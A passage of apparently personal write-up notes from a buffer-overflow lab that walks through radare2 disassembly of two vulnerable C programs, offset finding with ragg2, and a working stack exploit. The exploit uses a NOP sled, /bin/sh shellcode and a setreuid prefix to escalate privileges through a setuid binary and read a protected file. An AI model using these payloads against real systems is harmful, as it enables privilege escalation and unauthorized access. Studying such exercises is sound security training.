           0x00400595      c9             leave
           0x00400596      c3             ret
[0x00400564]> 

```

#### Call the Vulnerable Task 8 Function  

```md
[0x00400564]> s sym.copy_arg
[0x00400527]> pdf
 61: sym.copy_arg (int64_t arg1);
           ; var int64_t var_98h @ rbp-0x98 <- initiate a 64-bit variable at memory address rbp-0x98 (rbp minus 152 bytes) 
           ; var int64_t var_90h @ rbp-0x90 <- initiate a 64-bit variable at memory address rbp-0x90 (rbp minus 144 bytes).
           ; arg int64_t arg1 @ rdi <- document a function paramter, pointing arg1 to the memory location of rdi
           ; CALL XREF from main @ 0x40058b
           0x00400527      55             push rbp ; <- takes the current value in the rbp register and pushes it onto the stack
           0x00400528      4889e5         mov rbp, rsp ; <- creates a static reference point that saves the beginning of this funcion's stack frame, copy the memory address value from rsp into rbp. rsp and rbp temporarily point to the same memory location.
           0x0040052b      4881eca00000.  sub rsp, 0xa0 ; <- subtract 160 from rsp. Note: there are now 160 bytes between rsp and rbp while the saved return address is now rbp + 8
```

After these instructions:  

- rbp + 8: return address
- rbp + 0: saved rbp
- var_90h is at rbp - 0x90
- var_98h is at rbp - 0x98

If we change the reference point to rsp, from rbp, the stack looks more like:

- rsp = rsp +0
- var_98h = rsp + 8
- var_90h = rsp + 16 <- buffer, which turns out to be 144 bytes from rbp.
- rbp = rsp + 160
- return address = rsp + 168 or 
- Return address = rsp + 168 = buffer + 152 = rbp +8

```md
0x00400532      4889bd68ffff.  mov qword [var_98h], rdi    ; arg1 <- rdi is currently storing the memory address of argv[1]. This will move that memory address from rdi as the value contained in var_98h, at memory address rbp-0x98.
0x00400539      488b9568ffff.  mov rdx, qword [var_98h] ; <-the presence of the brackets moves the value stored at rbp-0x98 to memory location rdx. RDX now contains the pointer to argv[1]
0x00400540      488d8570ffff.  lea rax, [var_90h] ; <- go to the contents of variable var_90h. Determine the memory address where the value starts, load that address into rax.
0x00400547      4889d6         mov rsi, rdx ; <- moves the contents of rdi (the pointer to argv[1]) to rsi
0x0040054a      4889c7         mov rdi, rax ; <- rdi will now contain the beginning address of the 140-byte buffer
0x0040054d      e8defeffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src) <- assumes any required parameters start with rdi; it requires two registers meaning rsi (source because it was the second paramter passed) and rdi (destination, as the first parameter passed) are the registers involved; reads the contents of rsi (the memory address location of argv[1], begins the copy operation, reads the value of rdi (the beginning of the 140-byte buffer) and starts writing to var_90h, the buffer)
0x00400552      488d8570ffff.  lea rax, [var_90h] ; <- identifies the beginning memory address of var_90h and places that memory address into rax
0x00400559      4889c7         mov rdi, rax ; <- moves the memory address in rax to rdi, for use in the next function call
0x0040055c      e8dffeffff     call sym.imp.puts           ; int puts(const char *s) <- prints whatever the user input until reaching the null terminator '\0', even if it's longer than the 140 byte buffer
0x00400561      90             nop ; <- the next function in main() begins at 0x00400564. One nop is needed to align memory according to the 4-8-16-32-64 byte boundary convention
0x00400562      c9             leave ; <- two instructions in one `mov rsp, rbp` and `pop rbp`, in effect making the entire 160-byte stack available for other functions>
0x00400563      c3             ret ; <- the address of the next instruction to execute, in this case 0x400590, until it's hit with a buffer overflow>

```

The buffer overflow will replace `ret` with whatever pattern the attacker used. The segmentation error happens when the CPU realizes this is not a legitimate memory address

#### Generate A Test Pattern

Continuing to use `\x41` will eventually fail because it will not demonstrate WHERE the program crash is actually caused, only that a crash is caused.  

We can use a pattern of 200 bytes to make sure we get something we can trace.  

`:> python -c "print(''.join([chr(65 + (i % 26)) + str(i % 10) for i in range(100)]))" > pattern.txt`

Since we are already using radare2, we can use the simpler ragg2: `:> ragg2 -P 200 -r -o pattern.txt`

This gives us a string of four-byte characters that are still random within the overall string. This will allow us to trace the offset where the overflow happens.

#### Crash and Debug  the Task 8 program

It is unnecessary to actually generate the test pattern. Instead, we simply run radare2 with the ragg2 commad as argv[1]

```md
[user1@ip-10-65-185-212 overflow-3]$ r2 -d ./buffer-overflow $(ragg2 -P 200 -r)
Process with PID 12835 started...
= attach 12835 12835
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
 -- Use /m to carve for known magic headers. speedup with search.
[0x7ffff7dd9ef0]> dc ;<-- Continue
Here's a program that echo's out your input
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x00000000 code=128 ret=0
[0x00400563]> 

[0x00400563]> dr ;<-- dump the registers
rax = 0x000000c9
rbx = 0x00000000
rcx = 0x7ffff7b0d584
rdx = 0x7ffff7dd58c0
r8 = 0x4641414541414441 ;<-- overwritten
r9 = 0x4141484141474141 ;<-- overwritten
r10 = 0x414b41414a414149 ;<-- overwritten
r11 = 0x00000246
r12 = 0x00400450
r13 = 0x7fffffffe3b0
r14 = 0x00000000
r15 = 0x00000000
rsi = 0x00602260
rdi = 0x00000000
rsp = 0x7fffffffe2b8
rbp = 0x4179414178414177 ;<-- overwritten
rip = 0x00400563
rflags = 0x00010206
orax = 0xffffffffffffffff
[0x00400563]> 
```

We can find the exact offset of the overflow by querying the pattern at `rbp` and querying how far into the ragg2 pattern this sub-string appears:

```md
root@ip-10-65-96-45:~# echo "4179414178414177" | xxd -r -p | rev
wAAxAAyA
root@ip-10-65-96-45:~# ragg2 -q 0x7741417841417941
Little endian: -1
Big endian: 144
root@ip-10-65-96-45:~# 
```

This indicates that the saved rbp is being overwritten at 144 bytes into the pattern.  
The return address is located at rbp + 8 meaning overwriting the return address begins at 152 bytes into the pattern.  
There is some sort of discrepancy because the 80 bytes indicated is nowhere near the 152 bytes estimated by simple analysis. This could be simple human error.  


Since the compromised return address must be within the NOP sled, we need to identify the runtime address of the buffer.

From the earlier printout of sym.copy_arg `var int64_t var_90h @ rbp-0x90 ; <- We want this memory address`  

We can restart the program to have a clean set of memory registers.

`:> r2 -d ./buffer-overflow AAAA`

Set a breakpoint at the beginning of the sym.copy_arg function: `0x00400527      55             push rbp`  with `db 0x00400527`
Set another breakpoint where at the "load effective address" instruction : `0x00400540      488d8570ffff.  lea rax, [var_90h]` with `db 0x00400540`  

```md
[user1@ip-10-65-185-212 overflow-3]$ r2 -d ./buffer-overflow AAAA
Process with PID 12877 started...
= attach 12877 12877
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
 -- Heisenbug: A bug that disappears or alters its behavior when one attempts to probe or isolate it.
[0x7ffff7dd9ef0]> aaaa
[Cannot analyze at 0x00600ff0g with sym. and entry0 (aa)
Invalid address from 0x004005e9
[x] Analyze all flags starting with sym. and entry0 (aa)
[Warning: Invalid range. Use different search.in=? or anal.in=dbg.maps.x
Warning: Invalid range. Use different search.in=? or anal.in=dbg.maps.x
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[TOFIX: aaft can't run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[Warning: Invalid range. Use different search.in=? or anal.in=dbg.maps.x
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x7ffff7dd9ef0]> db 0x00400527
[0x7ffff7dd9ef0]> db 0x00400540
[0x7ffff7dd9ef0]> 


```

Continue to the first breakpoint:

```md
[0x7ffff7dd9ef0]> db 0x00400527
[0x7ffff7dd9ef0]> db 0x00400540
[0x7ffff7dd9ef0]> dc
Here's a program that echo's out your input
hit breakpoint at: 400527
[0x00400527]> dr
rax = 0x7fffffffe6cf
rbx = 0x00000000
rcx = 0x7ffff7b0d584
rdx = 0x7ffff7dd58c0
r8 = 0x00000003
r9 = 0x00000077
r10 = 0x00000000
r11 = 0x00000246
r12 = 0x00400450
r13 = 0x7fffffffe470
r14 = 0x00000000
r15 = 0x00000000
rsi = 0x00602260
rdi = 0x7fffffffe6cf
rsp = 0x7fffffffe378
rbp = 0x7fffffffe390
rip = 0x00400527
rflags = 0x00000212
orax = 0xffffffffffffffff
[0x00400527]> 
```

No function prologue has been executed, so continue:

```md
[0x00400527]> dc ;<-- executes the function prologue which sets the stack frame
hit breakpoint at: 400540
[0x00400540]> 
[0x00400540]> dr
rax = 0x7fffffffe6cf
rbx = 0x00000000
rcx = 0x7ffff7b0d584
rdx = 0x7fffffffe6cf
r8 = 0x00000003
r9 = 0x00000077
r10 = 0x00000000
r11 = 0x00000246
r12 = 0x00400450
r13 = 0x7fffffffe470
r14 = 0x00000000
r15 = 0x00000000
rsi = 0x00602260
rdi = 0x7fffffffe6cf ;<-- As the first register for variables, contains the pointer to the AAAA string, argv[1]
rsp = 0x7fffffffe2d0 ; <-- changed from 0x7fffffffe378 (rbp-0xa0)
rbp = 0x7fffffffe370 <-- changed from 0x7fffffffe390 to 0x7fffffffe370
rip = 0x00400540
rflags = 0x00000202
orax = 0xffffffffffffffff
[0x00400540]> 
```

argv[1] is located at 0x7fffffffe6cf  

```md
[0x00400540]> px 10 @ 0x7fffffffe6cf
- offset -       0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x7fffffffe6cf  4141 4141 0058 4447 5f53                 AAAA.XDG_S

OR

[0x00400540]> px 10 @ rdi
- offset -       0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x7fffffffe6cf  4141 4141 0058 4447 5f53                 AAAA.XDG_S
[0x00400540]> 
```

As expected, `rax` has not updated because we are paused at the instruction `lea rax, [var_90h]`, before it executes.  
We will step forward one instruction with `:> ds`  

```md
[0x00400540]> ds
[0x00400540]> dr
rax = 0x7fffffffe2e0
rbx = 0x00000000
rcx = 0x7ffff7b0d584
rdx = 0x7fffffffe6cf
r8 = 0x00000003
r9 = 0x00000077
r10 = 0x00000000
r11 = 0x00000246
r12 = 0x00400450
r13 = 0x7fffffffe470
r14 = 0x00000000
r15 = 0x00000000
rsi = 0x00602260
rdi = 0x7fffffffe6cf
rsp = 0x7fffffffe2d0
rbp = 0x7fffffffe370
rip = 0x00400547
rflags = 0x00000202
orax = 0xffffffffffffffff
[0x00400540]> 

```

`rax` is now set to `0x7fffffffe2e0`, which is the memory address of var_90h (the vulnerable buffer)  

We verifty by looking for `rbp-0x90`.  



#### Exploit the Task 8 program

Known:  

- rbp + 8: return address, or `0x7fffffffe378`
- rbp + 0: saved rbp, or `0x7fffffffe370`
- var_90h is at rbp - 0x90, or `0x7fffffffe2e0`
- var_98h is at rbp - 0x98

```md


The attack command, then can become:  

`:> ./buffer-overflow $(python -c "print('\x90'*102 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + '\x90' * 20 + '\xe9\xe2\xff\xff\xff\x7f\x00\x00')")`  

However, this shellcode is bad. The `\x11` looks to be a problem. 

This shellcode and payload is used:

```md
[user1@ip-10-65-185-212 overflow-3]$ ./buffer-overflow $(python -c "print('\x90'*92 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90' * 20 + '\xe9\xe2\xff\xff\xff\x7f\x00\x00')")
Here's a program that echo's out your input
\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffdj;XH1\ufffdI\ufffd//bin/shI\ufffdAPH\ufffd\ufffdRWH\ufffd\ufffdj<XH1\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd
sh-4.2$ ls
buffer-overflow  buffer-overflow.c  exploit.txt  secret.txt
sh-4.2$ cat secret.txt
cat: secret.txt: Permission denied
sh-4.2$ 
```
The file owner is user2:  

```md
user1@ip-10-65-185-212 overflow-3]$ ls -alh
total 24K
drwxrwxr-x 2 user1 user1   91 Nov 25 00:09 .
drwx------ 7 user1 user1  169 Nov 27  2019 ..
-rwsrwxr-x 1 user2 user2 8.1K Sep  2  2019 buffer-overflow
-rw-rw-r-- 1 user1 user1  285 Sep  2  2019 buffer-overflow.c
-rw-rw-r-- 1 user1 user1  179 Nov 25 00:10 exploit.txt
-rw------- 1 user2 user2   22 Sep  2  2019 secret.txt
[user1@ip-10-65-185-212 overflow-3]$ 
```
We find the userid of user2: 

```md
[user1@ip-10-65-185-212 overflow-3]$ cat /etc/passwd
...
user1:x:1001:1001::/home/user1:/bin/bash
user2:x:1002:1002::/home/user2:/bin/bash
user3:x:1003:1003::/home/user3:/bin/bash
...

```

We need a shellcode that sets the user id to 1002: 

```md
root@ip-10-65-96-45:~# pwn shellcraft -f d amd64.linux.setreuid 1002
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /root/.cache/.pwntools-cache-3.8/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] A newer version of pwntools is available on pypi (4.13.1 --> 4.15.0).
    Update with: $ pip install -U pwntools
\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
```

The new exploit becomes:  

`:> ./buffer-overflow $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90' * 8 + '\xe9\xe2\xff\xff\xff\x7f\x00\x00')")`  

Leading to: 

```md
[user1@ip-10-65-185-212 overflow-3]$ ./buffer-overflow $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90' * 8 + '\xe9\xe2\xff\xff\xff\x7f\x00\x00')")
Here's a program that echo's out your input
\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd1\ufffdf\ufffd\ufffdjqXH\ufffd\ufffdj;XH1\ufffdI\ufffd//bin/shI\ufffdAPH\ufffd\ufffdRWH\ufffd\ufffdj<XH1\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd
sh-4.2$ ls
buffer-overflow  buffer-overflow.c  exploit.txt  secret.txt
sh-4.2$ whoami
user2
sh-4.2$ cat secret.txt
omgyoudidthissocool!!
sh-4.2$ 

```

## Buffer Overflow 2

### Task 9 Code

```c
void concat_arg(char *string)
{
    char buffer[154] = "doggo";
    strcat(buffer, string);
    printf("new word is %s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    concat_arg(argv[1]);
}
```

### Find the Task 9 Segmentation Error

```md
[user1@ip-10-67-163-144 overflow-4]$ ./buffer-overflow-2 $(ragg2 -P 153 -r)
new word is doggoAAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAA
[user1@ip-10-67-163-144 overflow-4]$ ./buffer-overflow-2 $(ragg2 -P 154 -r)
new word is doggoAAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAz
[user1@ip-10-67-163-144 overflow-4]$ ./buffer-overflow-2 $(ragg2 -P 155 -r)
new word is doggoAAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzA
Segmentation fault
```

The Segmentation error begins at character 155 of the input string.  

### Examine the Task 9 Flow

```md
ser1@ip-10-67-163-144 overflow-4]$ r2 -d ./buffer-overflow-2 $(ragg2 -P 155 -r)
Process with PID 12679 started...
= attach 12679 12679
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
 -- phrack, better than java in the browser -- jvoisin
[0x7ffff7dd9ef0]> aaaa
[Cannot analyze at 0x00600ff0g with sym. and entry0 (aa)
Invalid address from 0x00400629
[x] Analyze all flags starting with sym. and entry0 (aa)
[Warning: Invalid range. Use different search.in=? or anal.in=dbg.maps.x
Warning: Invalid range. Use different search.in=? or anal.in=dbg.maps.x
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[TOFIX: aaft can't run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[Warning: Invalid range. Use different search.in=? or anal.in=dbg.maps.x
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x7ffff7dd9ef0]> s main
[0x004005ac]> pdf
 41: int main (int argc, char **argv, char **envp);
           ; var int64_t var_10h @ rbp-0x10 <- initiate a 64-bit variable at memory address rbp-0x10 (rbp minus 16 bytes) 
           ; var int64_t var_4h @ rbp-0x4 <- initiate a 64-bit variable at memory address rbp-0x04 (rbp minus 4 bytes) 
           ; arg int argc @ rdi <- radare notation indicating that argc (argument count) parameter is passed via the rdi register
           ; arg char **argv @ rsi <- argv, which is an array of string pointers,  will be passed using the rsi register
           ; DATA XREF from entry0 @ 0x40046d
           0x004005ac      55             push rbp ; <- takes the current value in the rbp register and pushes it onto the stack, preserving the caller's stack frame so it can be restored later.
           0x004005ad      4889e5         mov rbp, rsp ;<- Copy the memory address of rsp into rbp. rsp and rbp temporarily point to the same memory location.
           0x004005b0      4883ec10       sub rsp, 0x10 ;<- subtract 16 from rsp. Note: there are now 16 bytes between rsp and rbp
```

Summarize the function prologue:

- Save old rbp (push rbp)
- Establish new base pointer (mov rbp, rsp)
- Allocate local stack space (sub rsp, 0x10)
           
Note: There are only 16 bytes allocated to the main function.

```md
           
    0x004005b4      897dfc         mov dword [var_4h], edi     ; argc <- This instruction moves the value stored at edi to to the variable var_4h. The dword, or double word, type indicates it should be given 4 bytes of space.
    0x004005b7      488975f0       mov qword [var_10h], rsi    ; argv <- takes the value stored in the rsi register and moves it to become the value stored in the variable var_10h. This is argv. qword will take the full 8 bytes. It uses the full 8 bytes because the value being moved is a memory address that points to argv.
    0x004005bb      488b45f0       mov rax, qword [var_10h] ;<- Move the value stored in var_10h (the memory address pointing to argv) into the rax register
    0x004005bf      4883c008       add rax, 8 ; <- This instruction adds 8 to the value in the rax register. In effect, the memory address stored in the rax register no longer points to argv, but to argv[1], or $(ragg2 -P 155 -r)
    0x004005c3      488b00         mov rax, qword [rax] ; pointer dereference <- dereference the pointer to argv[1] and store the memory address containing the actual string
    0x004005c6      4889c7         mov rdi, rax ; <- moves the memory address containing the actual string into rdi , which is the first parameter register, making it available to pass to a function call.
    0x004005c9      e859ffffff     call sym.concat_arg ; <- call the function, in this case the vulnerable function
    0x004005ce      b800000000     mov eax, 0 ; <- zero out the content of register eax
    0x004005d3      c9             leave ; <- cleans up the stack frame by setting rsp=rbp, pops rbp
    0x004005d4      c3             ret ;<- return to the caller of main()
[0x004005ac]> 
```

```md
0x7ffff7dd9ef0]> s sym.concat_arg
[0x00400527]> pdf
 133: sym.concat_arg (int64_t arg1);
           ; var int64_t var_a8h @ rbp-0xa8 ; <- create variable var_a8h at rbp minus 168 bytes
           ; var int64_t var_a0h @ rbp-0xa0 ; <- create variable var_a0h at rbp minus 160 bytes
           ; var int64_t var_98h @ rbp-0x98 ; <- create variable var_98h at rbp minus 152 bytes
           ; var int64_t var_90h @ rbp-0x90 ; <- create variable var_90h at rbp minus 144, this will be the user input
           ; arg int64_t arg1 @ rdi ; <- create variable arg1 @ rdi, the first paramter register for this function
           ; CALL XREF from main @ 0x4005c9
           0x00400527      55             push rbp ; <- takes the current value in the rbp register and pushes it onto the stack, preserving the caller's stack frame so it can be restored later.
           0x00400528      4889e5         mov rbp, rsp ; <- Copy the memory address of rsp into rbp. rsp and rbp temporarily point to the same memory location.
           0x0040052b      4881ecb00000.  sub rsp, 0xb0 ;<- subtract 176 from rsp. Note: there are now 176 bytes between rsp and rbp

return address : rbp + 8
saved rbp : rbp
var_90h @ rbp minus 144 bytes
var_98h @ rbp minus 152 bytes
var_a0h @ rbp minus 160 bytes
var_a8h @ rbp minus 168 bytes
rsp : rbp minus 176 bytes


           0x00400532      4889bd58ffff.  mov qword [var_a8h], rdi    ; arg1 <- move the memory address stored in rdi (which points to the string) into the variable var_a8h
           0x00400539      48b8646f6767.  movabs rax, 0x6f67676f64    ; 'doggo'<- move the absolute value of the hex (which turns out to be doggo) and place it into rax register, not a memory pointer
           0x00400543      ba00000000     mov edx, 0 ; <-zero out edx>
           0x00400548      48898560ffff.  mov qword [var_a0h], rax ; <- move the 8-bytes stored in the rax register to the variable var_a0h, this is 'doggo'>
           0x0040054f      48899568ffff.  mov qword [var_98h], rdx ; <-move the 8 bytes stored in the rdx register into the variable var_98h which stores 8 zero bytes in rdx since edx was zeroed in a previous instruction>
           0x00400556      488d9570ffff.  lea rdx, [var_90h] ; <- load effective addres of var_90h into the rdx register>
           0x0040055d      b800000000     mov eax, 0 ;<- zero out eax>
           0x00400562      b911000000     mov ecx, 0x11               ; 17 <- load the  value of 17 inot ecx>
           0x00400567      4889d7         mov rdi, rdx ;<- move the memory address pointing to var_90h into rdi register>
           0x0040056a      f348ab         rep stosq qword [rdi], rax ; <- rax currnetly holds only zeros. Store 8 bytes of zeros from rax into the memory location pointed to by rdi. repeast (rep) this process whil incrementing the memory location by 8 bytes and perform this iteration based on the value stored in the exc register.>
           0x0040056d      4889fa         mov rdx, rdi ;<- move the memory address stored at rdi into rdx.>
           0x00400570      668902         mov word [rdx], ax ; <- move the two byte word stored at ax (two zeroes) into the memory location represented by rdx, This moves the 2 rightmost zero bytes from rax into the memory location that rdx points to>
           0x00400573      4883c202       add rdx, 2 ; <- add two to the memory address stored in rdx>
           0x00400577      488b9558ffff.  mov rdx, qword [var_a8h] ; <- move the 8 bytes stored at the beginning of var_a8h into rdx, this moves the memory pointer which points to the string into rdx>
           0x0040057e      488d8560ffff.  lea rax, [var_a0h] ;<- load the effective address of var_a0h into rax. This will be the memory address that points to the doggo string>
           0x00400585      4889d6         mov rsi, rdx ;<- move the memory address stored in rdx to rsi, rsi now contains the pointer to the input string>
           0x00400588      4889c7         mov rdi, rax ; <- load the memory address at rax into rdi, rdi now contains the memory address pointing to the doggo string>
           0x0040058b      e8b0feffff     call sym.imp.strcat         ; char *strcat(char *s1, const char *s2) <- call the string  concatenation function and send two parameters. rdi contains the pointer to the doggo string and rsi contains the pointer to the input string. The result is written back to the same memory location which rdi points to. this is where the buffer overflow happens.>
           0x00400590      488d8560ffff.  lea rax, [var_a0h] ; <- load the effective address of var_a0h into rax. this was the memory address pointing to the doggo string, and is now the memory address pointing to the concatenated string>
           0x00400597      4889c6         mov rsi, rax ;< move the memory address pointing to the concatenated string into rsi register>
           0x0040059a      bf70064000     mov edi, str.new_word_is__s ; 0x400670 ; "new word is %s\n" ; <- moves the memory address pointing to the new string into the edi register>
           0x0040059f      b800000000     mov eax, 0 ; <- zero out the eax register>
           0x004005a4      e887feffff     call sym.imp.printf         ; int printf(const char *format) <- by convention, takes rdi (which includes edi) and rsi (containing the pointer to the concatenated string) and execute the print function>
           0x004005a9      90             nop ; <- alignment byte>
           0x004005aa      c9             leave ; <- cleans up the stack frame by setting rsp=rbp, pops rbp
           0x004005ab      c3             ret ; <- return to calling function>
[0x00400527]> 

```

### The Task 9 Stack Frame  

return address : rbp + 8
saved rbp : rbp
var_90h @ rbp minus 144 bytes
var_98h @ rbp minus 152 bytes
var_a0h @ rbp minus 160 bytes
var_a8h @ rbp minus 168 bytes
rsp : rbp minus 176 bytes


